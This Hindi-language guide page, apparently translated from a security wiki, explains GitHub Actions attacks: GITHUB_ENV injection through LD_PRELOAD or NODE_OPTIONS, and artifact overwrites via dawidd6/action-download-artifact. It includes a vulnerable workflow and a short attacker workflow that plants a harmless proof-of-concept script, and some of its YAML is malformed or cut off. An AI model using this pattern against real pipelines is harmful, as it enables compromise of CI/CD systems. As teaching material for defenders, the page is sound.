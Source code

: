 ### **GITHUB_ENV स्क्रिप्ट इंजेक्शन** <a href="#what-is-usdgithub_env" id="what-is-usdgithub_env"></a>

दस्तावेज़ों के अनुसार: आप किसी वर्कफ़्लो जॉब में किसी भी बाद के चरणों के लिए एक **पर्यावरण चर उपलब्ध** करा सकते हैं, इसे परिभाषित या अपडेट करके और इसे **`GITHUB_ENV`** पर्यावरण फ़ाइल में लिखकर।

यदि एक हमलावर इस **env** चर के अंदर **कोई भी मान** इंजेक्ट कर सकता है, तो वह env चर को इंजेक्ट कर सकता है जो अगले चरणों में कोड निष्पादित कर सकता है जैसे **LD_PRELOAD** या **NODE_OPTIONS**।

उदाहरण के लिए ([**यह**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability-0) और [**यह**](https://www.legitsecurity.com/blog/-how-we-found-another-github-action-environment-injection-vulnerability-in-a-google-project)), कल्पना करें कि एक वर्कफ़्लो एक अपलोड की गई कलाकृति पर भरोसा कर रहा है ताकि इसकी सामग्री को **`GITHUB_ENV`** env चर के अंदर संग्रहीत किया जा सके। एक हमलावर इसे समझौता करने के लिए कुछ इस तरह अपलोड कर सकता है:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

### कमजोर तृतीय पक्ष गिटहब एक्शन

#### [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact)

जैसा कि [**इस ब्लॉग पोस्ट**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks) में उल्लेख किया गया है, यह गिटहब एक्शन विभिन्न वर्कफ़्लो और यहां तक कि रिपॉजिटरी से कलाकृतियों तक पहुंच की अनुमति देता है।

समस्या यह है कि यदि **`path`** पैरामीटर सेट नहीं किया गया है, तो कलाकृति वर्तमान निर्देशिका में निकाली जाती है और यह उन फ़ाइलों को ओवरराइट कर सकती है जो बाद में वर्कफ़्लो में उपयोग की जा सकती हैं या यहां तक कि निष्पादित की जा सकती हैं। इसलिए, यदि कलाकृति कमजोर है, तो एक हमलावर इसका दुरुपयोग करके अन्य वर्कफ़्लो को समझौता कर सकता है जो कलाकृति पर भरोसा करते हैं।

कमजोर वर्कफ़्लो का उदाहरण:
```yaml
on:
workflow_run:
workflows: ["some workflow"]
types:
- completed

jobs:
success:
runs-on: ubuntu-latest
steps:
- uses: actions/checkout@v2
- name: download artifact
uses: dawidd6/action-download-artifact
with:
workflow: ${{ github.event.workflow_run.workflow_id }}
name: artifact
- run: python ./script.py
with:
name: artifact
path: ./script.py
```
यह इस वर्कफ़्लो के साथ हमला किया जा सकता है:
```yaml
name: "some workflow"
on: pull_request

jobs:
upload:
runs-on: ubuntu-latest
steps:
- run: echo "print('exploited')" > ./script.py
- uses actions/upload-artifact@v2
with:
```